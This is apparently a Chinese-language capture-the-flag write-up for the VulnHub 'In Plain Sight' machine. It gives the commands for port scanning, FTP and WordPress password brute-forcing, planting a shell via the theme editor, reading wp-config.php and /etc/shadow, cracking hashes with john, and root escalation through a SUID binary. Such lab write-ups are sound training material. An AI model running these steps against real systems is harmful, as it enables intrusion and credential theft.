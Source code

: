 # insplainsight  
## 简述
https://www.vulnhub.com/entry/in-plain-sight-101,400/  
### 服务发现  
**IP查找**
```
nmap -PR 192.168.1.*
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207143848.png)  
**查找端口**
```
nmap -A -p 1-65535 192.168.1.62
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207144112.png)  
发现端口当中打开了ftp，尝试去发现其中的东西  
注意其中存在一个匿名登录  
查看其中的文件的提示   
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207144409.png)  
提示网站可能使用wordpress，另外在提升权限上和joe有关系，另外可能存在后门文件
匿名登录之后发现权限很少  
以下步骤同时做 
1.尝试爆破ftp的密码   
```
hydra -l ftp -P top6000.txt ftp://192.168.1.61
```
2.继续收集信息  
看看webapp下面的信息  
```
python3 dirsearch.py -e php -u http://192.168.1.62
```  
发现phpinfo文件  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207145710.png)  
发现wordpress文件夹  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207150303.png)
那么直接使用wpscan对该站点进行扫描吧   
```
wpscan --url http://192.168.1.57/wordpress/ --api-token xxxx -e vp 
wpscan --url http://192.168.1.57/wordpress/ --api-token xxxx -e u
```  
查找插件出来都是几个不是很重要的xss漏洞不好进行利用
发现用户名存在bossperson 
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207151353.png)  
对密码进行破解  
```
 wpscan --url http://192.168.1.62/wordpress/ --api-token x -U bossperson -P ../fuzzDicts/passwordDict/top6000.txt 
```
爆破没有爆破出来，出去看别人怎么做的，原来自己输在了收集信息  
当时并没有注意到这个信息  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153020.png)  
打开那个页面  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153116.png)
点击之后出现一个文件上传的页面  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153147.png)  
是否是存在一个文件上传获取shell呢？   
保留观点，打开f12注意其中的数据  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153337.png)
使用base64进行解码  
```
echo c28tZGV2LXdvcmRwcmVzcw== | base64 -d  
```
给出提示
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153544.png)  
翻译过来的意思就是  正在开发的意思？  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207153643.png)    

正在此时 发现爆破bossperson出现了结果  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207155843.png)
 
 对so-dev-wordpress 页面进行扫描也得到了用户名和密码  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207160134.png)  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207160514.png)  
 
 ## 获取权限  
 有wordpress的用户名和密码能够获取wordpress的权限  
 方法有两种，一种是通过写入shell到wordpress页面当中，这种方法要求我们获得的用户名要有更改网站的权限，另外一种是要求我们的用户名是admin才行，直接使用msf当中的方法进行上传文件包获得权限  
 第一种方法：   
 apperance->Theme Editor ->404.Template 编辑其中的php文件  
 
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208023321.png)
 注意要访问特定的404页面而不是随意访问  
 ```
 http://inplainsight/so-dev-wordpress/wp-content/themes/twentytwenty/404.php
 ```
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200208023936.png)  
 发现curl也可以进行使用  
 第二种方法：  
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207162932.png)  
 发现bossperson的并不能登录 那么使用admin吧  
 顺利反弹一个shell  
 **获取一个普通权限**
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207163046.png)  
 **提权**  
 ```
 python3 -c 'import pty; pty.spawn("/bin/bash")'
 ```  
 获取交互式的shell  
 寻找特殊的权限  
 ```
find / -perm -u=s -type f 2>/dev/null 
 ```  

 **搜寻信息**  
 有一个服务器权限之后，尝试寻找提权你的指令，如果是服务器的话尝试去查找其中的配置文件
 5x:Fxx%x+D#xaCfv  
 从/var/www/wordpress/wp-config.php 文件当中去寻找文件
 ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207173214.png)  
 没了线索。。。  
 想起有另外一个wordpress 
打开so-dev-wordpress，查看其中的配置文件  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207173937.png)  
oZ2R3c2x7dLL6#hJ  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207174150.png)  
选择好sodevwp当中的sodevwp_users表，其中的Mike很可能和一开始说的那个人是一个人
用户名和密码进行破解  
```
本地破解 john  
john pass -wordlist=/usr/share/wordlists/rockyou.txt
```  
将密码保存到文件当中然后进行上传  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207174851.png)  
得到密码文件之后进行登录  
**变为mike**  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207182233.png)
发现使用ssh不能进行破解，只能su到用户权限  
查看用户的密码文件  
```
cat /etc/shadow  
cat /etc/passwd
```  
提示使用连字符  
```
cat /etc/passwd-  
```  
查看文件内容  
发现密码  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207181513.png)  
**变为joe**  
寻找特殊的权限  
```
find / -perm -u=s -type f 2>/dev/null 
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207181735.png)  
执行文件bwrap  
拿到权限
**变为root**
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200207181829.png)
## 总结  
使用提示页面（类似ctf一般的脑洞）提示有另外一个wordpress站点  
进入站点之后，使用翻看数据库配置的方式获取·数据库密码  
拿到数据库密码之后解密处mike的密码  
得到mike的密码之后查看/etc/passwd-当中的文件得到joe的密码  
在joe的账户当中找到一个特殊的权限指令，使用该指令进行提权  
